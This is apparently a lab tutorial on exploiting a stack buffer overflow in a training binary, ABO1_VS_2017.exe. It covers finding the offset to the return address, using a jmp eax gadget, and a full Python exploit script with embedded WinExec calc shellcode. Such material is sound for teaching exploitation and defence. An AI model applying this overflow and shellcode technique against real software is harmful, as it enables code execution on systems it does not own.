


**ABO1_VS_2017.exe**

As seen in the **main** function, the idea of this **ABO** is executing the calculator.

It immediately calls a function, which I will rename to **función**.

That function only has one parameter, which is the constant **1**

This is **function**, it stores **0x400 (1024) bytes** for the **buffer** variable that later sends it as an argument of the function **gets**.

****

Double click the **var_buffer** variable and then convert to **array**.

****

The idea is to overflow the **var_buffer** variable until overwriting the **return address (ret)**, select up to **s** which is the **stored EBP** or **base pointer**, and check the amount of bytes up to that point. So to overwrite the **ret** we only need to add **4 bytes** with the direction we want it to jump to, in this case, we want it to jump to the **payload** we are going to send via parameter and will be at the beginning of the the **var_buffer** variable

As soon as **ret** is overwritten, we jump to the start of the **payload**, now that we are standing on the **ret**, we have to keep in mind the state of the registers, maybe one of them points to the **payload**.

The **gets** function receives a pointer to a string as an argument, and upon returning, the direction is stored in **eax**. **Eax** is not modified, so upon getting to **retn**, it will still be pointing to the **buffer**.

We need to look for a **jmp eax (FFE0)** in the code.

****

****

****

The script will look like this:

| import sys import binascii from subprocess import Popen, PIPE   winexec_calc_shellcode = b'31c94931d2e347526863616c6389e65256648b72308b760c8b760cad8b308b7e188b5f3c8b5c1f788b741f2001fe8b4c1f2401f90fb72c5142ad813c0757696e4575f18b741f1c01fe033caeffd76a605a6863616c6354594883ec2865488b32488b7618488b761048ad488b30488b7e3003573c8b5c17288b741f204801fe8b541f240fb72c178d5202ad813c0757696e4575ef8b741f1c4801fe8b34ae4801f799ffd7' winexec_calc_shellcode = binascii.unhexlify(winexec_calc_shellcode)  buffer = winexec_calc_shellcode + (b"A" \* (1024 - len(winexec_calc_shellcode))) s = b"A" \* 4 r = b"\\xA5\\x0F\\x41\\x00"  payload = buffer + s + r  p1 = Popen("ABO1_VS_2017.exe", stdin=PIPE) print ("PID: %s" % hex(p1.pid)) print ("Enter para continuar")  p1.communicate(payload) p1.wait() input() |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Execute it and upon accepting the MessageBox, the calculator will open.

****
